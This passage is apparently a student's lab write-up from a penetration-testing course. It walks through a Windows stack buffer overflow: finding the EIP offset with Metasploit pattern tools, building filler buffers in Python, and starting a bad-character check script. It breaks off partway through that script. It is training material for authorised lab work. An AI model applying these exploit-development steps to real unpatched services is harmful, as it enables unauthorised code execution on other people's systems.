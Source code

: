 2.  Determine the offset within the input buffer to successfully control EIP. &
3. Update your standalone script to place a unique value into EIP to ensure your offset is correct.
To do this we simply need to create a pattern buffer with a length of 800 using the metasploit tool "msf-pattern_offset". Once we have this buffer generated we replace the "inputbuffer" variable in our previous code with this newly created pattern. We now see a our pattern has overwritten the EIP register
![[imun_eip.png]]

We can now use msf-pattern_offset to identify the exact location of this in our buffer is at offset 780. Accounting for this, we adjust our initial script:
```python
filler = "A" * 780
eip = "B" * 4
buffer = "C" * 16

inputBuffer = filler + eip + buffer
```

We now should have 4 B's present in the EIP register and ESP should contain C's.

![[imun_eip_esp.png]]

# 11.2.8 Checking for Bad Characters
#### Exercises

_(To be performed on your own Kali and Windows lab client machines - Reporting is required for these exercises)_

1.  Repeat the required steps in order to identify the bad characters that cannot be included in the payload.
First we must extend our initial buffer in order to allow more space for the shell code. We simply increase our buffer from 800 to 1500 with the following snippet:
```python
filler = "A" * 780
eip = "B" * 4
offset = "C" * 4
buffer = "D" * (1500 - len(filler) - len(eip) - len(offset))

inputBuffer = filler + eip + offset + buffer
```

We can see the ESP points to the D's we have copied.
![[imun_D.png]]
Now that we have more room to work with we can begin checking for bad characters. We do this by replacing the D's with a list of hex characters. The script being used to check bad characters can be found here:
```python
#!/usr/bin/python
import socket

badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
```